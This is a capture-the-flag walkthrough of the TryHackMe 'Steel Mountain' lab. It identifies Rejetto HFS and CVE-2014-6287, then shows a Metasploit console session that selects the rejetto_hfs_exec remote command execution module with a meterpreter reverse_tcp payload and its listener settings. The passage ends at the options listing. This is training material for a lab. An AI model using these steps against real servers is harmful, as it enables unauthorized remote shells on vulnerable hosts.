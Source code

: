 [https://www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

`Rejetto HTTP File Server`

What is the CVE number to exploit this file server?

[Rejetto HTTP File Server (HFS) 2.3.x](https://www.exploit-db.com/exploits/39161)

`2014-6287`

Use Metasploit to get an initial shell. What is the user flag?

```
kali@kali:~/CTFs/tryhackme/Steel Mountain$ msfconsole -q
msf5 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.178.57   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```